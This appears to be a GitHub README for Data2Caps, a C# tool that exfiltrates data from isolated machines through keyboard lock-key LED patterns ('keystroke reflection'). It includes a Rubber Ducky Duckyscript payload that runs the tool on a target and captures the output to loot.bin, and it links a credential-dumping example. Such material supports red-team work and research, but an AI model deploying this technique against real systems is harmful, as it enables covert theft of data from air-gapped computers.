 # Data2Caps

----

Data2Caps is a C# project that converts messages or files into a sequence of light intervals of the lock keys of a keyboard. 
This play of lights can be used to exfiltrate those data. This method, also called keystroke reflection, can be used to steal data from isolated systems or to make detection more difficult.
Devices such as Hak5's USB Rubber Ducky Mk II can be used to utilize this form of data exfiltration.

_This method of exfiltration tends to be slow. Exfiltrating large files or messages may take several minutes, up to multiple hours._

References:
  - [Hak5 - Keystroke Reflection](https://shop.hak5.org/pages/keystroke-reflection)
  - [Keystroke Reflection - White Paper](https://cdn.shopify.com/s/files/1/0068/2142/files/hak5-whitepaper-keystroke-reflection.pdf?v=1659317977)
  - [USB Rubber Ducky](https://shop.hak5.org/products/usb-rubber-ducky)
  - [Darren Kitchen](https://x.com/hak5darren)
  - [Dallas Winger](https://x.com/NotKorben)
  - [Example Attack](https://github.com/hak5/usbrubberducky-payloads/tree/master/payloads/library/credentials/BitLockerKeyDump)

----

## Command Line Usage
![Menu](https://github.com/0i41E/Data2Caps/assets/79219148/992f130b-03f7-42fe-9486-11afc8e1bc1e)

## Duckyscript example
This example can be utilized to see the binary in action. Place the compiled binary onto the target system and open up `cmd.exe` in the same directory.
After everything is set up, use the following payload with your Rubber Ducky Mk II.
Storage will be opened at the end, so the contents of the `loot.bin` file can be checked
```
DELAY 3000
REM Saving current Keyboard lock keys
SAVE_HOST_KEYBOARD_LOCK_STATE
$_EXFIL_MODE_ENABLED = TRUE
$_EXFIL_LEDS_ENABLED = TRUE
DELAY 500
STRING Data2Caps.exe /message "Keystroke Reflection is super cool!"
DELAY 250
ENTER
DELAY 250
WAIT_FOR_SCROLL_CHANGE
DELAY 250
LED_G
DELAY 250
$_EXFIL_MODE_ENABLED = FALSE
DELAY 500
RESTORE_HOST_KEYBOARD_LOCK_STATE
DELAY 500
ATTACKMODE STORAGE
```
